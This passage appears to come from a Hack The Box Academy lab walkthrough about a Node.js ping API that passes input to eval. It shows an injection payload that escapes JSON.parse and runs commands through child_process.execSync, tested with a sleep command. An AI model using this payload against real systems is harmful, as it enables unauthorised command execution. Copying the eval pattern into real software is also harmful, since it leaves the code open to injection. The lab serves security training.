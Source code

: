 This asynchronous function is designed to handle a request for pinging a specific IP address. It extracts the `external` and `ip` properties from the request's body. Depending on the value of the `external` property, it either uses the provided `ip` value (parsed from JSON) or defaults to "127.0.0.1" if no valid IP is provided. The intended use of the `/api/service/ping` endpoint will appear as follows:

Code: shell

```shell
curl -X POST http://localhost:5000/api/service/ping -H "Content-Type: application/json" -H "Authorization: bearer <token>" -d '{"external": "true", "ip": "{\"ip\":\"8.8.8.8\"}"}'
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-5kfh5qltzn]─[~/skills_assessment]
└──╼ [★]$ curl -X POST http://localhost:5000/api/service/ping -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIxIiwiaWF0IjoxNzAxMTkxNTMzLCJleHAiOjE3MDEyNzc5MzN9.a9gyocBkhBW1p3xhUCD65B0C8O4-I-rywj221RMighI" -d '{"external": "true", "ip": "{\"ip\":\"8.8.8.8\"}"}'

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=121 time=1.02 ms

--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.023/1.023/1.023/0.000 ms
```

The function also happens to take the user's input and place it within `eval`, presenting a vulnerability. To reach the vulnerable part of the function, `external` needs to be set to `true`. To exploit the vulnerability, the code must be working up to the injection point. Therefore, students need to send a payload starting with starting with `{}');` for it to be `uip = JSON.parse('{}');` followed by the command to be injected:

Code: json

```json
{"external": "true", "ip": "{}'); require('child_process').execSync('<command>')//"}
```

Students need to test locally, utilizing a `sleep` command to see if the command injection is working successfully. Subsequently, students need to save the following payload to a text file (in this example, it will be referred to as `data.txt`):

Code: shell

```shell
cat << EOF > data.txt
{"external": "true", "ip": "{}'); require('child_process').execSync('sleep 2')//"}
EOF
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-5kfh5qltzn]─[~/skills_assessment]
└──╼ [★]$ cat << EOF > data.txt
> {"external": "true", "ip": "{}'); require('child_process').execSync('sleep 2')//"}
> EOF
```
